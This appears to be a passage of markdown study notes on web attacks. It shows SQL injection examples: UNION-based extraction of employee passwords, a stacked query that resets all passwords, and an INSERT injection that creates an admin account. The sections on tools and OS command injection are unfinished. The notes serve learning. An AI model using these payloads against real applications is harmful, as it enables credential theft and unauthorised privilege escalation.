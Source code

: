 Example for `UNION`:
```sql
-- executed query:
SELECT * FROM user_data WHERE last_name = '<parameter>'

-- injected string:
-- Smith' UNION SELECT userid,first_name,last_name,password,5,6,7 FROM employee WHERE '' = '

-- resulting query:
SELECT * FROM user_data WHERE last_name = 'Smith' UNION SELECT userid,first_name,last_name,password,5,6,7 FROM employee WHERE '' = ''

-- even simpler:
SELECT * FROM user_data WHERE last_name = 'Smith' UNION SELECT userid,first_name,last_name,password,5,6,7 FROM employee--'
```

Multiple Queries (only possible if program supports the execution of multiple statements at once):
```sql
-- executed query:
SELECT * FROM user_data WHERE last_name = '<parameter>'

-- injected string:
-- Smith'; UPDATE employee SET password = 'foo'--

-- resulting query:
SELECT * FROM user_data WHERE last_name = 'Smith'; UPDATE employee SET password = 'foo'--'
```

Example for `INSERT`:
* Inserts additional user with more privileges
```sql
-- executed query:
INSERT INTO User (type, username, password) VALUES ('user', '<parameter1>', '<parameter2>')

-- injected string for parameter2:
-- userpass'), ('admin', 'Superuser', 'adminpass')--

-- resulting query:
INSERT INTO User (type, username, password) VALUES ('user', 'parameter1', 'userpass'), ('admin', 'Superuser', 'adminpass')--')
```

#### BURP Suite
TODO
#### sqlmap
TODO

### OS Command Injection
* Possible if progam invokes commands in the underlying operating system

Example:
TODO

